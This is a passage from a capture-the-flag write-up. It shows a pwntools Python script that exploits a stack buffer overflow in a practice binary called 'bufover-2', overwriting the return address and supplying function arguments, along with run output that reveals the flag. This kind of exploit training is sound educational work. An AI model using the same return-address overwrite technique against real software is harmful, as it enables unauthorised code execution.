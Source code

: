 
```
[+] Starting local process './bufover-2': pid 26915
AAAAAAAAAAAAAAAAAAAAAAAAAAAA\x04Uڴ\x14\x00\x00\xb4�
Type something
None
>
[*] Process './bufover-2' stopped with exit code 1 (pid 26915)
You typed AAAAAAAAAAAAAAAAAAAAAAAAAAAA\x04Uڴ\x14
Close, but not quite.
```

WAIT. I thought this was supposed to work!!!!!!!! What gives

We actually need some [padding](https://en.wikipedia.org/wiki/Data_structure_alignment) between the return address and the arg1. Since arg1 is a long long int, we will need 4 bytes of padding before we send arg1.

Let's add to the exploit.

```
#!/usr/bin/env python2

from pwn import *

#start the ./pwn1 process and save it in variable p
p = process('./bufover-2')

exploitBufferToOverwriteVarAndEBP = "A"*28

returnAddressOfWin = p32(0x080491c2)

arg1 = p64(0x14B4DA55)
arg2 = p32(0xF00DB4BE)

paddingBetweenRetAddrAndArg1 = "A"* 4

exploitToSend = exploitBufferToOverwriteVarAndEBP + returnAddressOfWin + paddingBetweenRetAddrAndArg1 + arg1 + arg2

print(exploitToSend)
print(p.recvuntil('something'))

print(p.sendline(exploitToSend))

print(p.recv())
print(p.recv())
```

Then we run it...

```
[+] Starting local process './bufover-2': pid 27525
AAAAAAAAAAAAAAAAAAAAAAAAAAAA\x04AAAAUڴ\x14\x00\x00\xb4�
Type something
None
>
You typed AAAAAAAAAAAAAAAAAAAAAAAAAAAA\x04AAAAUڴ\x14
You win!
flag: flag{yee_yee_you_got_da_flagggg!!!!!}
```
